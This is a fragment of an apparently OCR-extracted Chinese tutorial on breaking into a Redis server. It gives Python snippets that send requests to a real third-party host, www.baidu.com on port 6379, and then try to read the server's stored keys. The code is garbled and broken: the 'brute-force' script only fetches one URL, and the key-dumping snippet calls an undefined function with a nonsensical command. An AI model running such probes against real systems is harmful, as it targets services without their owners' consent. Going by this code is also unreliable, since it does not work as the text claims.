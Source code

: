 > 
>   
> 
> 拿到版本后我们就应该开始尝试各种方法了，当然最常用的就是爆破法，先写个脚本看看能不能登陆进去吧！
> 
> \`\`\`
> 
> import requests,json,time
> 
>   
> 
> def main(host,port):
> 
>     url = 'http://%s:%s/%2523redis\_version' % (host,port)
> 
>   
> 
>     while True:
> 
>   
> 
>         try:
> 
>             r=requests.get(url=url)
> 
>             print(r.text.strip())
> 
>             break;
> 
>         except Exception as e:
> 
>             time.sleep(1)
> 
> main('www.baidu.com',6379)
> 
> \`\`\`
> 
>   
> 
> !\[\](../Images/f6adbbba14fb2cd25bf2bdbe2df7ddfe.png)
> 
>   
> 
>   
> 
> 可以看到已经进入了 redis 里面了哦~~那是不是说明我们可以通过 get 方式传参的方式把 redis 里面的密钥都给打出来呢？让我们试试看吧！
> 
> \`\`\`python
> 
> payload='set foo "test"'
> 
> r=get\_redis(host='www.baidu.com', port='6379')
> 
> print(r.execute\_command("GET",payload))
> 
> \`\`\`
> 
> 结果如下：
> 
>   
> 
> !\[\](../Images/a7aa5a8af9596ce38bfcfca5eb1b2886.png)
> 
>   